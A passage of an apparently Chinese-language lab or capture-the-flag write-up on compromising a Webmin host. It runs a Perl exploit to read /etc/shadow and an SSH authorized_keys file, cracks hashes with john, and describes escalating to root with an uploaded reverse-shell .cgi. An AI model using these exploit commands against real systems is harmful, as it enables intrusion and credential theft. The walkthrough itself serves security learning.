

### 总结

核心是从webmin的任意文件读取漏洞入手，读取了shadow文件，成功登录ssh。并想到既然webmin的这个漏洞可以读取shadow文件，那么这个漏洞利用是具有高权限的，可以用于提权。

在进行提权时，我之前一直有疑问，为什么要用perl脚本构造反弹shell的payload？为什么还要改名为.cgi？我直接在靶机中添加有执行权限的php一句话反弹shell的代码shell.php不行吗？我试了试，确实不行。如果是shell.php，那么用2017.pl脚本漏洞利用的时候，仅仅能够以root权限读取shell.php，而不能够以root权限执行shell.php，或许这就是必须要使用.cgi的原因。有关.cgi文件读取可以直接执行这一点，其实我还是没有太清楚，还需要通过今后的渗透学习慢慢加强理解。


```
1.主机发现和端口扫描：常规思路，根据漏洞脚本扫描的结果，重点关注80和10000端口。

2.Web渗透：到处翻找，观察url参数，可能存在文件包含，成功读取了/etc/passwd。

3.Webmin任意文件读取漏洞利用：nmap的扫描给了我们提示，查找webmin的漏洞，最终成功读取/etc/shadow。

4.哈希碰撞破解密码，用john破解第三步的得到的密码哈希，成功拿到了vmware用户的密码。ssh登录成功

5.提权：webmin文件泄露利用脚本既然能读取shadow文件，说明具有root权限。可以再次利用这个漏洞提权。在靶机上传可执行的反弹shell文件shell.cgi，并用Webmin任意文件读取漏洞利用读取并执行这个shell.cgi，即可以root权限触发反弹shell指令，相当于实现了提权。
```

# 解法二

### ssh免密登录


解法一中，通过nmap漏洞脚本扫描发现存在`webmin文件泄露`漏洞，使用`searchsploit`在漏洞库中找利用脚本，获取到`/etc/shadow`文件

```bash
┌──(kali㉿kali)-[~]                                                                           
└─$ sudo perl 2017.pl 10.10.10.16 10000 /etc/shadow 0
```





`vmware`用户有免密登录

`authorized_keys`文件获取

```bash
┌──(kali㉿kali)-[~]
└─$ sudo perl 2017.pl 10.10.10.16 10000 /home/vmware/.ssh/authorized_keys 0
sudo: unable to resolve host kali: Name or service not known
WEBMIN EXPLOIT !!!!! coded by UmZ!
Comments and Suggestions are welcome at umz32.dll [at] gmail.com
Vulnerability disclose at securitydot.net
I am just coding it in perl 'cuz I hate PHP!
Attacking 10.10.10.16 on port 10000!
FILENAME:  /home/vmware/.ssh/authorized_keys

 FILE CONTENT STARTED
 -----------------------------------
ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEAzASM/LKs+FLB7zfmy14qQJUrsQsEOo9FNkoilHAgvQuiE5Wy9DwYVfLrkkcDB2uubtMzGw9hl3smD/OwUyXc/lNED7MNLS8JvehZbMJv1GkkMHvv1Vfcs6FVnBIfPBz0OqFrEGf+a4JEc/eF2R6nIJDIgnjBVeNcQaIM3NOr1rYPzgDwAH/yWoKfzNv5zeMUkMZ7OVC54AovoSujQC/VRdKzGRhhLQmyFVMH9v19UrLgJB6otLcr3d8/uAB2ypTw+LmuIPe9zqrMwxskdfY4Sth2rl6D3bq6Fwca+pYh++phOyKeDPYkBi3hx6R3b3ETZlNCLJjG7+t7kwFdF02Iuw== vmware@ubuntuvm

 -------------------------------------
```

